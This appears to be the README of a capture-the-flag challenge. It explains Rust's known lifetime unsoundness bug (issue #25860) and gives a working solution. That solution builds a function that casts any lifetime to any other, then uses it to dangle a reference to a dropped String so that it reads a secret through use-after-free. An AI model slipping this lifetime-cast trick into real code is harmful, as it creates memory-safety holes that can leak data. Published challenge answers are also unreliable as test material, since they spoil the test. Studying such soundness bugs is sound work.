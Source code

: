 # a_happy_life

Challenge based on rust-lang/rust#25860.

## Idea

This challenge exploits a unsoundness hole discovered in Rust lifetime deduction system. When a type like `&'a &'b ()` is encountered, the compiler implicitly relies upon `'b: 'a`, which could be broken by contravariance.

See rust-lang/rust#25860 for the original issue. A more theoretical yet neater explanation can be found on https://counterexamples.org/nearly-universal.html.

## Solution

Part 1:

```rust
/*
 * Create "any-to-any" lifetime cast function.
 */

fn aux<'a, 'b, T>(_: Option<&'a &'b ()>, v: &'b T) -> &'a T { v }

fn exp<'c, 'd, T>(x: &'c T) -> &'d T {
    let f: fn(Option<&'d &'d ()>, &'c T) -> &'d T = aux;
    f(None, x)
}
```

Part 2:

```rust
/*
 * Create a local variable whose memory location
 * may coincide with `_secret`.
 * 
 * The length of the `&'static str` literal should be
 * the same as `_secret`.
 */
let local = String::from("aaaabaaacaaadaaa");
/*
 * Scramble its lifetime, and make it dangle after
 * it leaves its scope.
 */
exp(&local)
```

### Explanation

The value `local` is dropped once it leaves the scope. But as the compiler thinks that `x` has a lifetime longer than `local`, the reference `x` to `local` dangles, which can then possibly (in fact almost always on `-C opt_level=0`) refer to the memory space allocated for `_secret`, creating a use-after-free scenario.

## Requirements

* `rustc` on PATH, tested with `rustc 1.76.0-nightly (d86d65bbc 2023-12-10)`
* Flag in environment variable `FLAG`
